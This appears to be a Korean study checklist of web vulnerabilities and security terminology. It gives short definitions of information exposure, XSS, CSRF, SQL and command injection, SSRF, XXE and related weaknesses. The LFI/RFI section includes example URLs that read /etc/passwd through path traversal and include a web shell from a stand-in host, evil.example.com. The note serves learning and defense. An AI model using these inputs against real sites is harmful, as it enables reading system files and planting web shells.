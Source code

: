 ## Web Vuln. Checklist & Security Terminology

---



## Web Vuln. Checklist

---

### 1. 단순 정보 노출

**1.1. 불필요 파일/페이지 노출**

- 불필요한 파일/페이지 노출은 말 그대로 **웹 사이트의 민감정보**가 의도치 않게 노출되는 취약점을 의미한다.
- 불필요한 파일 : 애플리케이션 **설치시 기본적으로 제공**되는 매뉴얼, 기본 페이지, 소스 백업 파일 등을 의미하며 이를 통해 시스템 관련 정보 혹은 내부 프로그램 로직등이 노출될 수 있는 간접적 위험을 제공할 수 있다.

**1.2. 부적절한 로그인 실패 메시지**

- 부적절한 로그인 실패 메시지는 공격자에게 계정관련 정보를 제공할 수 있다.
- 입력한 아이디가 존재하는지, 비밀번호가 맞는지 모두를 알 수 없도록 '해당되는 아이디가 없습니다', '비밀번호가 틀렸습니다'가 아닌 '**ID 또는 PW가 잘못되었습니다**'라는 실패메시지를 출력하도록 한다.

**1.3. 에러메시지 노출**

- 해커가 의도적인 에러를 유발하였을 때 **적절한 예외처리**를 하지않아 출력되는 **에러정보에 중요정보가 포함되어** 공격에 도움되는 정보가 노출될 수 있는 보안약점

**1.4. Default Page 노출**

- 애플리케이션 설치시 기본적으로 설치되는 샘플 페이지, 디폴트 페이지, 관리자 페이지 등을 제어하지 않아 웹 서버에 대한 정보를 제공하게 되는 보안약점



### 2. 중요 정보 노출

**2.1. 중요정보 평문 전송**

- 사용자 또는 시스템의 중요정보가 포함된 데이터를 평문으로 송수신 할 경우, 통신채널 스니핑을 통해 인가되지 않은 사용자에게 해당 데이터가 노출될 수 있는 보안약점
- `Wireshark`로 보이는 패킷에 암호화되어 알아볼 수 없도록 되어있지 않고 일반적인 문자가 캡쳐된다면 취약한 것.



**2.2. 중요정보 평문 노출**

- 비밀번호, 개인정보와 같은 중요정보를 암호화하여 저장하지 않아 정보가 노출될 수 있는 보안약점



**2.3. 파일 다운로드**

- 홈페이지 상에서 파일을 다운로드 받는 `asp, jsp, php` 프로그램에서 입력되는 경로를 검증하지 않는 경우 임의의 위치에 존재하는 파일을 열람하거나 다운받을 수 있는 보안약점



**2.4. 디렉터리 리스팅**

- 웹 서버 운영시 특정 디렉터리에 초기화 파일이 없을 경우 `(index.html, default.html, ...etc)` 해당 디렉터리의 파일 
  리스트를 브라우저에게 보여주게 되는 보안약점
- 구조 파악 & 민감정보가 포함된 파일 노출 -> 보안 위협



### 3. 취약한 인증 및 권한

---

**3.1. Cross-Site Script**

- 공격자가 <u>웹 사이트에 스크립트를 삽입</u>하여 의도치 않은 행동을 수행하거나 민감정보 탈취가 가능한 보안약점
- XSS의 공격대상은 클라이언트



**3.2. Cross-Site Request Forgery (CSRF)**

- 클라이언트가 자신의 의지와는 무관하게 공격자가 의도한 행위(삽입,삭제,등록 등)를 특정 웹사이트에 요청하게 만드는 공격



**3.3. 프로세스 검증 누락**

- 애플리케이션의 계획된 플로우 통제를 우회하는 것을 허가하는 보안약점.



### 4. 원격 명령실행

---

**4.1. Command Injection**

- `OS` 명렁어를 삽입하고 요청을 보내 웹 서버에서 실행시키는 취약점



**4.2 SQL Injection **

- 변조된 SQL언어를 사용해 DB내 데이터를 열람하거나 삽입&삭제하는 보안약점



**4.3. Local File Inclusion / Remote File Inclusion (LFI / RFI)**

- 공격 대상 서버에 위치한 파일을 포함시켜 읽어오도록 하는 공격

- 파일이 존재하는 위치가 로컬인지 리모트인지에 따라 나뉨.

>**LFI** Ex) example.com/index.jsp?file=../../../../../../etc/passwd
>
>**RFI** Ex) example.com/index.jsp?file=http://evil.example.com/webshell.txt



**4.4. File Upload**

- 서버 사이드 언어로 개발된 프로그램을 업로드하여 실행시킬 수 있는 취약점



**4.5. Server-Side Request Forgery(SSRF)**

- 서버 사이드에서 이루어지는 `Request`를 변조하여 해커가 의도한 서버로 요청이 가게 하거나 요청 내용을 변경할 수 있는 공격
- 사용자의 입력을 받아 서버가 직접 다른 웹 또는 포트에 접근하여 데이터를 가져오는 기능들에서 주로 발생함



**4.6. XXE Injection**

- XXE : `XML External Entity` 
- XML : `Extensible Markup Language`로 다른 특수한 목적을 갖는 `Markup Language`를 만드는데 사용하는 언어
- 즉 XML 외부 요소를 삽입하는 공격
- XML 문서에서 동적으로 외부 URI 리소스를 포함시킬 수 있는 `external entity`를 사용하여 서버의 로컬파일 열람등을 유발할 수 있는 취약점으로 XML Request를 파싱하는 페이지에서 발생한다.



**4.7. 검증되지 않은 Redirect/Forward**

- 사용자의 입력값에 대한 검증 없이 리다이렉트 처리시 발생하는 취약점.
- 악의적인 URL로 렌더링 될 수 있는 취약점 존재.





## Security Terminology

---

**민감정보** : 사상, 신념, 노동조합&정당가입, 건강정보, 유전정보, 범죄경력 정보 등 그 밖의 <u>정보주체의 사생활을 현저히 침해할 우려가 있는 개인정보</u>

**고유식별정보** : <u>주민등록번호, 여권번호, 운전면허번호, 외국인등록번호</u>

**인증/인가** : 

- 인증 : 통제된 자원에 접근시, 등록된 사용자 인지 여부를 확인하는 것. -> 로그인

- 인가 : 접근 이후, 인증된 사용자에게 권한을 부여하는 것.

  인증을 거친 이후 인증된 사용자에게 특정한 권한을 부여하는것이 인가

**위협/위험/취약점**

- 위협 : 자산에 손실을 발생시킬 수 있는 원인 또는 행위
- 위험 : 위협이 발생할 수 있는 가능성
- 취약점 : 위협에 의해 손실이 발생하게 되는 약점

**취약점이 존재하지 않는다면 위협은 위험이 될 수 없다.**
